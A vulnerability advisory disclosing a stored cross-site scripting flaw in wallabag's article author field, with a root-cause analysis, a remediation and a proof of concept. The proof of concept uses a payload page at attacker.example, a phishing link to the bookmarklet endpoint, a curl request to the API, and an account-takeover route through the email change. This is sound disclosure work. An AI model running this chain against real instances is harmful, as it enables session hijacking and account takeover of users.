

<div align="center">
  <a href="https://www.thoropass.com/" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>

  <h1>Stored XSS in wallabag Entry Author Field</h1>

  <p>🔐 <strong>Thoropass Vulnerability Research Program</strong> 🧪</p>
</div>

<div align="center">
  
  
  
</div>


---

## Advisory Information

| &nbsp; | &nbsp; |
|:---|:---|
| **Researcher** | [Manfred Carvajal](https://www.linkedin.com/in/manfred-carvajal-a9a8562b8) on behalf of [Thoropass](https://thoropass.com) |
| **Product** | [wallabag](https://github.com/wallabag/wallabag) - Open-source self-hosted "read-it-later" web application. Users save URLs of articles they want to read later; wallabag fetches each page, strips out navigation and ads, and stores a clean copy of the article in their account for distraction-free reading on web or mobile. |
| **Affected Version** | `<= 2.6.14` (current stable). |
| **Vulnerable Endpoint (Sink)** | `GET /view/{id}` - the entry view template that renders `published_by` with Twig's `\|raw` filter. |
| **Source Endpoints** | `POST /api/entries.json` (direct `authors` parameter injection) and `GET /bookmarklet?url=...` (Graby-extracted `<meta name="author">` from any URL the victim is induced to submit). |
| **Vulnerability Type** | CWE-79: Improper Neutralization of Input During Web Page Generation (Cross-Site Scripting) |
| **CVE ID** | [CVE-2026-12188](https://www.cve.org/CVERecord?id=CVE-2026-12188)  |

## Vulnerability Summary

The wallabag entry view template renders the `published_by` (article author) field using Twig's `|raw` filter, which explicitly disables Twig's default HTML autoescaping. Two independent code paths write attacker-controlled HTML into this field with no sanitization:

1. **`POST /api/entries.json`** accepts an `authors` parameter that is comma-split and stored verbatim in `published_by`.

2. **Graby-extracted `<meta name="author">` content** from any URL submitted to wallabag (via the web UI, the API, the bookmarklet, browser extensions, or mobile clients). Graby reads the value of the `content` attribute via XPath, calls `trim()` on it, and returns it to wallabag which stores it without sanitization.

**Delivery vector:** The `GET /bookmarklet?url=...` endpoint that backs the user-facing "bag it" save feature accepts a URL parameter and triggers a server-side fetch under the requesting user's session. The endpoint is intended to be invoked by a bookmarklet the user has dragged to their browser's bookmarks bar, but the server can't distinguish that from a click on any attacker-supplied wallabag URL of the same shape. By sending a logged-in victim a link to `https://wallabag.example/bookmarklet?url=<attacker_url>`, an unauthenticated attacker causes wallabag to fetch the attacker's page. Graby extract the malicious `<meta>` content, stores the payload under the victim's account, and redirects to `/view/<new_id>` where the XSS executes in wallabag's origin.

The resulting JavaScript runs with full access to the wallabag REST API as the victim, enabling session hijacking, reading and modifying all of the victim's saved content, account takeover via the password-change endpoint, and persistence (every subsequent view of the entry re-fires the payload).

## Technical Analysis

➤ **Sink:** `templates/Entry/entry.html.twig:326` on `master`, `src/Wallabag/CoreBundle/Resources/views/Entry/entry.html.twig:293` in 2.6.14.

```twig

    <li>
        <i class="material-icons grey-text" title="{{ 'entry.view.published_by'|trans }}">person</i>
        
            {{ author|raw }}, 
        
    </li>

```

The `|raw` filter is Twig's explicit opt-out from automatic HTML escaping. Any HTML in an author string is parsed as markup by the browser. The `|raw` was introduced in by commit `03f2cacb5` titled "Fix authors and preview alt encoding display", in which the developer changed `{{ author }}` (safe, autoescaped) to `{{ author|raw }}` (unsafe) in an attempt to fix a character-encoding display issue. 

➤ **Direct API Source:** `src/Wallabag/ApiBundle/Controller/EntryRestController.php:734`.

```php
if (!empty($data['authors'])) {
    $entry->setPublishedBy(explode(',', $data['authors']));
}
```

The setter applies no validation. The string is comma-split and stored as a PHP-serialized array in the `published_by` database column. Payloads can avoid the comma split by using `String.fromCharCode(0x2c)` for any commas they need, or by being comma-free entirely (such as `` payloads).


➤ **Authentication:** The attacker requires no wallabag credentials. The victim must be authenticated to wallabag for the cross-user delivery to succeed; no specific role is required.

### Proof of Concept

#### Prerequisites

- A running wallabag instance reachable over HTTP / HTTPS.
- An HTML page hosted on a publicly reachable URL.
- One wallabag user account that the attacker can phish into clicking a link.

**1. Attacker hosts a payload page (`page.html`):**

```html
<!doctype html>
<html><head>
<title>Proof of Concept</title>
<meta name="author" content="">
</head><body>
<h1>Proof of Concept</h1>
<p>PoC</p>
</body></html>
```

The `<meta name="author">` `content` attribute uses the outer double quotes; the embedded payload uses single quotes for the `alert()` argument so no HTML-entity encoding is needed inside the attribute value.

**2. Attacker sends the victim a single phishing link:**

```
https://wallabag.example/bookmarklet?url=https%3A%2F%2Fattacker.example%2Fpage.html
```

**3. Victim clicks the link while logged in to wallabag.**

The victim's browser issues:

```
GET /bookmarklet?url=https%3A%2F%2Fattacker.example%2Fpage.html HTTP/1.1
Host: wallabag.example
Cookie: PHPSESSID=<victim_session>
```

wallabag fetches `https://attacker.example/page.html` server-side via Graby, extracts the `<meta name="author">` content as ``, creates a new entry on the victim's account with `published_by = [""]`, and responds:

```
HTTP/1.1 302 Found
Location: /view/<new_entry_id>
```

**4. The victim's browser follows the redirect and renders `/view/<new_entry_id>`.**

The response HTML contains, inside the entry-metadata block:

```html
<li>
    <i class="material-icons grey-text" title="Published by">person</i>
    
</li>
```

The `` element fails to load `src=x`, the `onerror` handler executes, and an alert pops in the victim's browser displaying wallabag's own domain. The script is running in the wallabag origin under the victim's authenticated session.

**5. Confirm persistence.**

The malicious entry remains in the victim's account. Each subsequent view of `/view/<new_entry_id>` re-fires the payload. The attacker may replace `alert(document.domain)` payload with any other malicious JavaScript to escalate impact.



**6. Direct API form of the same sink (`POST /api/entries.json`)**, demonstrating that the sink fires even without the Graby path:

```bash
curl -X POST "https://wallabag.example/api/entries.json" \
  -H "Authorization: Bearer <attacker_oauth_token>" \
  --data-urlencode "url=https://example.com/$(date +%s)" \
  --data-urlencode "title=PoC" \
  --data-urlencode "authors="
```

Viewing `/view/<returned_id>` triggers the same alert. This path requires the attacker to hold an OAuth token for the target account; it serves to isolate the sink from the Graby-extraction chain when demonstrating the vulnerability.

## Impact

A remote attacker with no wallabag credentials and no privileged position can, with a single phishing link clicked by any logged-in wallabag user, achieve:

- Arbitrary JavaScript execution in the victim's authenticated browser session inside wallabag's origin.
- Persistent malicious entries in the victim's account that re-fire on every view.
- Administrative compromise when the victim has an admin role.
- Account takeover by changing the victim's email address via the /config user-information endpoint (which accepts a new email with no current-password confirmation), then triggering the standard password-reset flow at /resetting/request, which delivers a reset link to the now-attacker-controlled email address.


## Remediation

**Escape `published_by` in the entry view template.**

In both `templates/Entry/entry.html.twig` (current `master`) and `src/Wallabag/CoreBundle/Resources/views/Entry/entry.html.twig` (2.6 branch), replace:

```twig
{{ author|raw }}, 
```

with:

```twig
{{ author }}, 
```

Twig's default autoescaping will then HTML-encode the author string.

## References

- Source: https://github.com/wallabag/wallabag
- Vulnerable template (`master`): https://github.com/wallabag/wallabag/blob/master/templates/Entry/entry.html.twig
- Vulnerable template (2.6.14): https://github.com/wallabag/wallabag/blob/2.6.14/src/Wallabag/CoreBundle/Resources/views/Entry/entry.html.twig
- CWE-79: https://cwe.mitre.org/data/definitions/79.html
- A05:2025 Injection: https://owasp.org/Top10/2025/A05_2025-Injection/
- Cross Site Scripting Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

## ⚠️ Disclaimer

The vulnerability was identified through authorized security testing. The proof of concept is provided to help defenders validate their exposure and verify remediation.

Thoropass follows **coordinated vulnerability disclosure (CVD)** principles. Vulnerabilities are reported privately to maintainers, reasonable time is provided for remediation, and public advisories are released after coordination or fix availability.

## About Thoropass

Thoropass delivers enterprise-grade audits with AI-native speed and precision. Designed from day one to integrate auditors, automation, and infosec workflows in a single, closed-loop system, no add-ons, no handoffs.

Our experienced penetration testing team proactively discovers vulnerabilities in web applications, APIs, and infrastructure, helping organizations secure their systems before attackers find weaknesses.

<div align="center">
  <br>

  **Thoropass Vulnerability Research Program**

  <em>Improving ecosystem security through responsible research and disclosure.</em>

  <br><br>
  <a href="https://thoropass.com/contact" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/platform/penetration-testing" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>

---

<div align="center">
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>
